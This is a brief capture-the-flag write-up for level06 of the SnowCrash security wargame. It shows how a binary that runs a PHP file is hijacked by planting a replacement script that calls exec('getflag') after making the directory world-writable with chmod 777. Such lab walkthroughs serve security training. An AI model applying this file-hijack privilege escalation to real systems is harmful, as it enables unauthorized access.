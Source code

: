 # Find the password of Flag06

## First check :
Home directory : \[✓\] not empty.
We found 2 files:
- PHP file
- executable file

## Binary ? hexdump ! :

`hexdump ./level06 -C`
The hexdump showed us that the `./level06` binary executes the file `level06.php`

Let's create our `/tmp/level06.php` maybe ?

```
#!/usr/bin/php

<?php
echo exec('getflag');
?>

```

...
...
...

```
chmod 777 .
mv /tmp/level06.php .
./level06
```

## TADAAAAAAA, It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level06/flag)

_tobecontinued_